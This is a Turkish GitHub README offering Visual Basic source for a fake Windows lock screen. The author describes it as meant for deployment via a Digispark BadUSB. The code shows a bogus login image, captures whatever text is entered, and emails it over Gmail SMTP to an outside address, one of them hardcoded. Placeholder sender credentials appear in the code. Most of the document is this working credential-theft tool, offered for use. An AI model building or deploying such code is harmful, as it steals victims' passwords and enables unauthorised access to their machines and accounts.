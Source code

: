 # WindowsFakeLockScreen
<img src="https://i.hizliresim.com/Ii5hUx.png">

Üst kısımdaki resimden de anlayacağınız gibi sahte bir login ekranıdır.
programı visual basic ile oluşturdum.
Mantık programda textbox kısmına girilen herhangi bir yazıyı belirlediğimiz mail adresine göndermektir.
Bu programı BadUSB ile birlikte kullanmak amaçlı oluşturdum ve BadUSB olarak Digispark kullandım.

Digispark ile ilgli bilgiye ulaşmak için: https://digistump.com/wiki/digispark bu adrese bakın

Sahte görüntü tamamen bir görseldir sadece TextBox ve Button olan kısım eklenmiştir butonun daha gerçekçi gözükmesi için PictureBox olarak ayarladım.

Programı Visual Studio 2013 Ultimate kullanarak hazırladım

<strong>PROGRAMIN KAYNAK KODU</strong>

<pre><code>Imports System.Net.Mail
Public Class Form1

    Private Sub Form1_Load(sender As System.Object, e As System.EventArgs) Handles MyBase.Load

    End Sub

    Private Sub PictureBox3_Click(sender As System.Object, e As System.EventArgs) Handles PictureBox3.Click
        Dim MyMailMessage As New MailMessage()

            Try
                MyMailMessage.From = New MailAddress("MAILADRESI@gmail.com")
                MyMailMessage.To.Add("sefaorucsiberdunya@gmail.com")
                MyMailMessage.Subject = TextBox1.Text
                MyMailMessage.Body = TextBox2.Text
                Dim SMTP As New SmtpClient("smtp.gmail.com")
                SMTP.Port = 587
                SMTP.EnableSsl = True
                SMTP.Credentials = New System.Net.NetworkCredential("MAILADRESI@gmail.com", "PAROLA")
                SMTP.Send(MyMailMessage)
                TextBox2.Text = ""
                Dim frm As New Form1
                frm.Show()

                Me.Close()
            Catch ex As Exception
            End Try
    End Sub

    Private Sub TextBox1_KeyDown(sender As Object, e As KeyEventArgs) Handles TextBox1.KeyDown
        If e.KeyCode = Keys.Enter Then
            Dim MyMailMessage As New MailMessage()
            MyMailMessage.From = New MailAddress("MAILADRESI@gmail.com")
            MyMailMessage.To.Add("MAILADRESI@gmail.com")
            MyMailMessage.Subject = TextBox1.Text
            MyMailMessage.Body = TextBox2.Text
            Dim SMTP As New SmtpClient("smtp.gmail.com")
            SMTP.Port = 587
            SMTP.EnableSsl = True
            SMTP.Credentials = New System.Net.NetworkCredential("MAILADRESI@gmail.com", "POROLA")
            SMTP.Send(MyMailMessage)
            TextBox2.Text = ""
            Dim frm As New Form1
            frm.Show()

            Me.Close()

        End If
    End Sub

    Private Sub TextBox1_TextChanged(sender As Object, e As EventArgs) Handles TextBox1.TextChanged


    End Sub

End Class
</code></pre>

Kaynak kodlardan da görebileceğiniz gibi oldukça basit bir kodlamadır.
kodları ikinci defa yazmamın sebebi girilen texti hem enter tuşuna bastığında hem de ekrandaki ok işaretine bastığı zaman belirlediğimiz mail adresine göndermesi içindir.



